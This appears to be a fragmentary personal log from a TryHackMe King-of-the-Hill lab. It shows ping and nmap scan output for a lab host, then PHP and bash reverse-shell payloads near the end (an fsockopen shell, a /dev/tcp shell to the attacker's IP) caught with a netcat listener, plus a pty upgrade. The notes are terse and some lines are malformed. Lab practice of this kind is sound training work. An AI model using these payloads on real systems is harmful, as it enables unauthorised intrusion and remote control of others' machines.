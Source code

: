 ┌──(kali㉿kali)-[~/thm/koth-easy]
└─$ ping 10.10.110.172
PING 10.10.110.172 (10.10.110.172) 56(84) bytes of data.
64 bytes from 10.10.110.172: icmp_seq=1 ttl=63 time=39.9 ms
64 bytes from 10.10.110.172: icmp_seq=2 ttl=63 time=39.5 ms
64 bytes from 10.10.110.172: icmp_seq=3 ttl=63 time=41.1 ms
64 bytes from 10.10.110.172: icmp_seq=4 ttl=63 time=39.4 ms
64 bytes from 10.10.110.172: icmp_seq=5 ttl=63 time=40.7 ms
64 bytes from 10.10.110.172: icmp_seq=6 ttl=63 time=40.9 ms
^C
--- 10.10.110.172 ping statistics ---
6 packets transmitted, 6 received, 0% packet loss, time 5008ms
rtt min/avg/max/mdev = 39.438/40.244/41.076/0.658 ms

┌──(kali㉿kali)-[~/thm/koth-easy]
└─$ nmap -p- -sC -sV -Pn 10.10.110.172
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-24 17:09 CET
Nmap scan report for 10.10.110.172
Host is up (0.039s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:75:95:c7:6d:f4:92:a0:0e:1e:60:b8:be:4d:92:b1 (RSA)
|   256 a2:11:fb:e8:c5:c6:f8:98:b3:f8:d3:e3:91:56:b2:34 (ECDSA)
|_  256 72:19:b7:04:4c:df:18:be:6b:0f:9d:da:d5:14:68:c5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: VeryBasicCMS - Home
| http-robots.txt: 1 disallowed entry 
|_/vbcms
8001/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: My Website
|_Requested resource was /?page=home.php
8002/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Learn PHP
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Sat, 24 Feb 2024 16:10:24 GMT
|     Content-Length: 10
|     Content-Type: text/plain; charset=utf-8
|     cyberus17
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.94SVN%I=7%D=2/24%Time=65DA14EF%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,7F,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x2
SF:02024\x2016:10:24\x20GMT\r\nContent-Length:\x2010\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\n\r\ncyberus17\n")%r(HTTPOptions,7F,"HTTP
SF:/1\.0\x20200\x20OK\r\nDate:\x20Sat,\x2024\x20Feb\x202024\x2016:10:24\x2
SF:0GMT\r\nContent-Length:\x2010\r\nContent-Type:\x20text/plain;\x20charse
SF:t=utf-8\r\n\r\ncyberus17\n")%r(FourOhFourRequest,7F,"HTTP/1\.0\x20200\x
SF:20OK\r\nDate:\x20Sat,\x2024\x20Feb\x202024\x2016:10:24\x20GMT\r\nConten
SF:t-Length:\x2010\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n\r\
SF:ncyberus17\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\
SF:r\n\r\n400\x20Bad\x20Request")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnec
SF:tion:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,6
SF:7,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x
SF:20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%
SF:r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(TLSSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Kerberos,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(LPDString,67,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20cha
SF:rset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(LDA
SF:PSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.89 seconds

dirb http://ip 
g

$sock=fsockopen("10.18.21.236",445);exec("sh <&3 >&3 2>&3");

└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.18.21.236] from (UNKNOWN) [10.10.110.172] 58798

echo system(whoami);

serv3
serv3

exec("/bin/bash -c 'bash -i >&/dev/tcp/10.18.21.236/445 0>&1'");
exec(python3 -c 'import pty;pty.spawn("/bin/bash")');
